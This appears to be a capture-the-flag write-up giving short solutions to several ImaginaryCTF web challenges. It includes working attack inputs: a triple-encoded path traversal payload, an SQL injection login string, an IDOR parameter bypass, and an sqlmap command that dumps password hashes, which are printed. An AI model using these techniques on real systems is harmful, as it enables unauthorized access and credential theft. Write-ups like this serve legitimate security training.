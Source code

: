 <h2>WEB</h2>
<h3>inspection</h3>

Just inspected the challange description and saw class named `m4rkdown_parser_fail_1a211b44`.

So the Flag is, `ictf{m4rkdown_parser_fail_1a211b44}`.

<h3>Idotriot(web)</h3>

After unzipping given source code, saw there is a code to read `/flag.txt`.
We can read it directlythe flag on http://idoriot.chal.imaginaryctf.org/flag.txt

Flag is, `ictf{1ns3cure_direct_object_reference_from_hidden_post_param_i_guess}`.
<h3>Idotriot Revenge</h3>
Similar challenge. 
Got source code of the site in zip file. 
After unzipping the file, checked source code. 
There is two condition in the code to print the flag. 
First condition is to add user_id param in url with id number of admin. 
So I assumed user id of the admin is 0 (first number in database series). 
Second condition is to preg match the username with admin. 
Used, admin1337 as username to register to bypass this and opened http://idoriot-revenge.chal.imaginaryctf.org/index.php?user_id=0.

Flag is, `ictf{this_ch4lleng3_creator_1s_really_an_idoriot}`.
<h3>Roks</h3>

Got source code of the site in zip file. 
After unzipping the file, checked source code. 
After reviewing code got an File Reader endpoint on main page `/file.php?file=IMAGE`.
File input is decoding the url encode and then check if input contains `/` and `.`. 
Checked docker file to know the location of flag and got flag.png on the web directory.
So, url encoded the payload three times to bypass Local File Inclusion (LFI) and worked.
Here is the payload,
`http://roks.chal.imaginaryctf.org/file.php?file=%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%35%25%32%35%25%33%32%25%36%36%25%32%35%25%33%36%25%33%36%25%32%35%25%33%36%25%36%33%25%32%35%25%33%36%25%33%31%25%32%35%25%33%36%25%33%37%25%32%35%25%33%32%25%36%35%25%32%35%25%33%37%25%33%30%25%32%35%25%33%36%25%36%35%25%32%35%25%33%36%25%33%37`

Flag is, `ictf{tr4nsv3rs1ng_0v3r_r0k5_6a3367}`.

<h3>Perfect Picture</h3>

Got source code of the site in zip file. 
After unzipping the file, checked source code. 
After reading code we understood that, we have to upload an image with certain condition. 
So, coded an python script to generate a image with matching condition to print the flag and uploaded the flag.
Then got the flag.

Flag is, `ictf{7ruly_th3_n3x7_p1c4ss0_753433}`. 

<h3>Blank</h3>

Used SQLi injeciton to login and printed the flag.
Used username as `admin` and password as `" UNION SELECT 1337, "admin", "cat" --`.
Opened http://blank.chal.imaginaryctf.org/flag to get the flag.

Flag is, `ictf{sqli_too_powerful_9b36140a}`. 

<h3>Login</h3>

Saved login request after capturing it with burp suite. 
Then used sqlmap on it with sqlmap command `sqlmap -r login.req --batch -T users -C pwhash --dump`. 
Got two user password,
```sql

+--------------------------------------------------------------+----------+
| pwhash                                                       | username |
+--------------------------------------------------------------+----------+
| $2y$10$vw1OC907/WpJagql/LmHV.7zs8I3RE9N0BC4/Tx9I90epSI2wr3S. | guest    |
| $2y$10$Is00vB1hRNHYBl9BzJwDouQFCU85YyRjJ81q0CX1a3sYtvsZvJudC | admin    |
+--------------------------------------------------------------+----------+
```

